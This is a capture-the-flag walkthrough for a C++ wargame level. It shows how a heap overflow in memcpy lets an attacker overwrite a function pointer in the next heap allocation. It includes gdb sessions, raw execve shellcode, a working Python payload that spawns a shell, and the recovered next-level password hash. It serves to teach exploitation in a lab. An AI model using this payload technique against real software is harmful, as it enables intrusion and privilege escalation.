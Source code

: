 ## LEVEL 9
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

This level is a little more spacial...
```shell
$ objdump -p level9
  required from libstdc++.so.6:
    0x056bafd3 0x00 05 CXXABI_1.3
    0x08922974 0x00 03 GLIBCXX_3.4
```

Yes this level isn't C but C++.

The asm file can have some errors because of the language, C++ is way more complex than C to disassemble. For this particular level I used Ghidra to help me to dissassemble the code. But I will stil use the dissassembled code because some parts are not explained in the C++ code.

The first thing to do is to find the vulnerability. Here are all the lines of code below the first argument usage, as it's the only thing that could be interesting for sending a payload.

```cpp
	n1_ptr->setAnnotation(argv[1]);
	return ((n2_ptr)->operator+(*n1_ptr));
```

The only usage of the arguments is in the `setAnnotation()` function. Let's disassemble it because I suspect this function may have a vulnerability.

```shell
    0x08048733 <+37>:	call   0x8048510 <memcpy@plt> ; Call the memcpy function
    {
        memcpy(this->var, n, strlen(n));
    }
```

This `memcpy` function can overwrite heap memory if the argument number 1 is too long. Let's see what we can overwrite. Here are the allocations in our program:


```shell
[...]
    0x08048610 <+28>:	movl   $0x6c,(%esp)
    0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
[...]
    0x08048632 <+62>:	movl   $0x6c,(%esp)
    0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
[...]
```

The program allocates two blocks of 108 bytes each. The first allocation is `n1`, and the second is `n2`. As we previously observed, the heap allocates memory in chunks. Therefore, if I overflow the first allocation, I can overwrite the second one. Now you might be wondering why it's useful to overflow the second allocation. Here's why:

```shell
   0x0804867c <+136>:	mov    0x10(%esp),%eax
[...]
   0x08048682 <+142>:	mov    (%eax),%edx
[...]
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

The program calls the function pointer stored in the second allocation. Therefore, if I overwrite the second allocation, I can invoke any function of my choice. Great, we're almost done. Now I need to determine which function I want to call. After using the `info func` command, I discovered that the program doesn't have the `system` function compiled. Hence, I will need to use a shellcode to obtain a shell.

Now that we have all the necessary knowledge to exploit the program, let's write the payload.

1. We need to overflow the first allocation to overwrite the second one. I need the lenght between the first allocation and the pointer readed by the program. I will use gdb to find it.

```shell
(gdb) b *0x08048677
Breakpoint 1 at 0x8048677
(gdb) r AAAA
Starting program: /home/user/level9/level9 hi

Breakpoint 1, 0x08048677 in main ()
(gdb) x/a $esp+16
0xbffff710:	0x804a078
(gdb) x/a $esp+20
0xbffff714:	0x804a008
(gdb) x/x 0x804a008+4
0x804a00c:	0x41414141
```

So the distance between these two addresses is 0x6b which is 108 in decimal. So I need to overflow the first allocation with 108 bytes. And the shellcode will be stored at `0x804a00b`.

2. Get the shellcode

I will use the same shellcode as the level 2 because the system is similar.

```shell
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

We can know create the payload, and try it in GDB.

```shell
$ python -c 'print("\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 87 + "\x0c\xa0\x04\x08")' > /tmp/payload
(gdb) r $(cat /tmp/payload)
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x580b6a08 in ?? ()
```

Oh, it seems that the program crashed. Let's understand why, for that I will print $edx right before the call.

```shell
(gdb) x/x $edx
0x580b6a08:	Cannot access memory at address 0x580b6a08
```

It appears that `$edx` is not a valid address, but it represents the address of the shellcode. To address this issue, we need to replace the shellcode at the beginning with an address that points to the shellcode. To do that, I will place the address at the beginning of the string. This address will be the same address that I used to overwrite the second allocation, plus 4 bytes.

```shell
$ python -c 'print("\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08")' > /tmp/payload
$ echo "cat /home/user/bonus0/.pass" | ./level9 $(cat /tmp/payload)
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```shell